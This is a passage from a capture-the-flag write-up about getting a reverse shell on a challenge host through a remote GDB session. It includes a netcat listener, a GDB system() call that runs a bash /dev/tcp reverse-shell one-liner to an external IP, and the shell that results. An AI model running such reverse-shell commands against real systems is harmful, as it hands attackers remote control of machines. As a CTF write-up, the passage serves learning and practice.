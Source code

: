 # Getting a reverse shell

From my experience, the challenges that were exposed directly with a port (as opposed to
a SSL tunnel) tended to have internet access open. Let's gamble on that and try getting
a reverse shell.

*   On an AWS VM (54.152.13.254) with open port 80:

    ```
    # nc -lvp 80
    Ncat: Version 7.93 ( https://nmap.org/ncat )
    Ncat: Listening on :::80
    Ncat: Listening on 0.0.0.0:80
    ```

*   And then, we try to start it in GDB. By default this causes a bit of havoc in the
    GDB session, as it is trying to follow the subprocesses. But, this can be fixed with
    the `follow-fork-mode parent` flag. Overall, the complete reverse shell sequence in GDB is:
    
    ```bash
    pwndbg> target remote library.m0unt41n.ch:30662
    pwndbg> set follow-fork-mode parent
    pwndbg> break *0x000055555555518e
    pwndbg> c
    (...)
    pwndbg> call (int)system("/bin/bash -c \"( /bin/bash -i >& /dev/tcp/54.152.13.254/80 0>&1 & ) ; exit\"")
    ```
    
    It took me a while to figure the right combination of escapes - the above one has the nice
    property of completely detaching the shell from the debugged program.

*   On the remote side we will see the instance connecting and exposing a shell:

    ```
    # nc -lvp 80
    Ncat: Version 7.93 ( https://nmap.org/ncat )
    Ncat: Listening on :::80
    Ncat: Listening on 0.0.0.0:80
    Ncat: Connection from 128.140.62.133.
    Ncat: Connection from 128.140.62.133:43564.
    bash: cannot set terminal process group (9): Inappropriate ioctl for device
    bash: no job control in this shell
    yeetus@gerts-data-brotocol:/$
    ```

# Unlocking the flag

The flag permissions are a bit odd - readable by `shadow` user:
